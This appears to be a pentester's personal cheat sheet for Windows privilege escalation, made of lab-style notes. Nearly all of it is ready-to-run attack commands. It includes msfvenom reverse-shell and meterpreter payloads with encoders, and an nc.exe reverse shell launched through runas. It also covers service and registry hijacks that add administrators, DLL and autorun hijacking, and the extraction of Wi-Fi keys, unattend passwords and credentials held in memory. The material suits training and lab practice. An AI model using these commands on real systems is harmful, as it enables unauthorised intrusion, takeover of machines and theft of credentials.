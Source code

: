 
#MSFvenom :
- Create payloads (adjust as needed)
	- `msfvenom -p windows/shell_reverse_tcp LHOST=<tun0> LPORT=1337 -f aspx > manual.aspx`

### Windows Privilege Escalation [Checklist](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)

- [Basic Enumeration](obsidian://open?vault=Main-Notes&file=%F0%9F%A6%8ATCM%20Security%2FPrivEsc_Windows%2F1_Initial_Enumeration):
    - `whoami /priv`
    - `systeminfo`
    - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
- Windows Enumeration Scripts:
	- [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) .exe
	- [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) .py
    - [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) .ps1
	    - `powershell -ep bypass`
	    - ` . .\PowerUp.ps1`
	    - `Invoke-AllChecks`
- [LOLBINS](https://lolbas-project.github.io/) 
- #TokenImpersonation :
	- `whoami /priv`
    - `GodPotato.exe -cmd "cmd.exe /c whoami"`
    - Use Other [Potato Attacks](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato) for older systems
- Stored Passwords:
	- `findstr /si password *.txt *.ini *.config` 
		- _Note: runs in current directory_
	- `netsh wlan show profile`
	- `netsh wlan show profile <SSID> key=clear`
- AV Enumeration
	- `sc query windefend`
		- `sc queryex type= service`
	- `netsh advfirewall firewall dump`
		- `netsh firewall show state`
		- `netsh firewall show config`
- [Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master), examples:
	- KiTrap0D – _CVE-2010-0232_ – LPE
	- Chimichurri – _CVE-2010-3338_ – LPE
	- PrintNightmare – _CVE-2021-34527_ – LPE/RCE
	- EternalBlue – _CVE-2017-0144_ – RCE (SMBv1 exploit used in WannaCry)
	- SMBGhost (CoronaBlue) – _CVE-2020-0796_ – RCE (SMBv3)
	- PrintNightmare – _CVE-2021-34527_ – LPE/RCE
	- etc.
- #WSL :
	- Find `wsl.exe` and `bash.exe` using `where /R c:\windows wsl.exe` and `where /R c:\windows bash.exe`
	- It runs as root, so
		- `c:\Windows\Path\To\wsl.exe whoami`
		- `c:\Windows\Path\To\bash.exe`
- #RunAs :
	- `cmdkey /list`
	- `runas /env /noprofile /savecred /user:username\administrator "cmd.exe /c whoami > whoami.txt"`
	- `runas /env /noprofile /savecred /user:username\administrator "c:\temp\nc.exe <IP> 443 -e cmd.exe"`
		- *We can use `mdb-sql` and `readpst` tools to open and read `.mdb` and `.pst` files*
- Writable Services: `sc qc <service>`
- #Autoruns :
	- Check if vulnerable with #PowerUp or:
		- `reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"`
		- `icacls "C:\Program Files (x86)\Startup Program\StartupProgram.exe"`
		- `.\accesschk64.exe -wvu "C:\Program Files\Autorun Program\program.exe" -accepteula`
	- Create payload with #MSFvenom 
		- `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -a x86 --platform windows -e x86/shikata_ga_nai -f exe -o program.exe`
	- Replace payload and the Autorun file identified from above commands.
	- Run payload with listener, profit
- #AlwaysInstallElevated :
	- `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
	- `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
	- If `0x1`, then vulnerable. #PowerUp would also show this
	- `msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi`
- #regsvc :
	- `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
		- To privesc, output should show `NT AUTHORITY\INTERACTIVE`” has “`FullContol`
	- Create payload and compile
	- `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
- #ExecutableFiles :
	- `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
	- Notice that the “Everyone” user group has “`FILE_ALL_ACCESS`” permission
	- Create payload and compile
	- `sc start <exploit>`
- #StartUp :
	- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
	- From the output notice that the “`BUILTIN\Users`” group has full access ‘(F)’ to the directory
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe`
	- Place `x.exe` in “`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`"
	- Restart/relogin
- #DLLHijacking :
	- Identify in #procmon 
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll`
	- `sc start <exploit>`
		- may need to stop and start
- #BinaryPaths :
	- `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone *`
	- `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
		- Based on first result, we run it for `daclsvc`
		- We can also see this in `PowerUp.ps1` results
	- Notice that the output suggests that the user “`User-PC\User`” has the “`SERVICE_CHANGE_CONFIG`” permission
	- `sc qc daclsvc`
	- `sc config daclsvc binpath= "net localgroup administrators user /add"`
	- `sc start daclsvc`
- #UnquotedServicePaths :
	- `sc qc unquotedsvc`
	- Notice that the “`BINARY_PATH_NAME`” field displays a path that is not confined between quotes
	- `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
	- `msfvenom -p windows/shell/reverse_tcp LHOST=10.2.1.119 -f exe -o common.exe`
	- Place `common.exe` in ‘`C:\Program Files\Unquoted Path Service`'
	- Open command prompt and type: `sc start unquotedsvc`
- #ConfigFiles :
	-  `notepad C:\Windows\Panther\Unattend.xml`
	- Scroll down to the “`<Password>`” property and copy the base64 string that is confined between the “`<Value>`” tags underneath it
	- Use [CyberChef](https://cyberchef.org/), [Base64Decode](https://www.base64decode.org/), or Kali `base64` command
		- `echo [copied base64] | base64 -d`
- #Memory :
	- In Windows Task Manager, right-click on the “`iexplore.exe`” in the “Image Name” column and select “Create Dump File” from the popup menu.
	- `strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"`
	- `echo -ne [Base64 String] | base64 -d`  

```c
==ENUMERATE AGAIN AFTER PRIV ESC!==
```

